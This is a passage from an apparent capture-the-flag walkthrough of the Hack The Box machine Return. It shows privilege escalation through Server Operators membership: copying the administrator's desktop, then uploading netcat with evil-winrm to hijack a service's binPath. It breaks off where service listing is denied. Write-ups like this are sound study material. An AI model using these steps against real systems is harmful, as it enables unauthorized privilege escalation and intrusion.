 <figure><img src="../../.gitbook/assets/return_robocopy_root.png" alt=""><figcaption><p>Figure 7: Copying the administrator's desktop directory and reading the root flag.</p></figcaption></figure>

### binPath

Another way to leverage this membership is to first upload the [netcat binary](https://github.com/vinsworldcom/NetCat64/releases) on the target host, find a service and change it's [`ImagePath`](../../tl-dr/active-directory/groups/server-operators.md#imagepath) or [`binPath`](../../tl-dr/active-directory/groups/server-operators.md#binpath). For this to work, we need to find a service to target, but it seems that we can't use any command to list the running services (Figure 8).&#x20;

{% code overflow="wrap" %}
```bash
# logging into the box via WinRM
evil-winrm -i 10.10.11.108 -u svc-printer -p $(cat svc-printer_pass)
# uploading the binary
upload nc64.exe
# list running services
Get-Service
sc.exe query
```
{% endcode %}

<figure><img src="../../.gitbook/assets/return_svcs.png" alt=""><figcaption><p>Figure 8: The <code>svc-printer</code> account is not allowed to list the running services.</p></figcaption></figure>
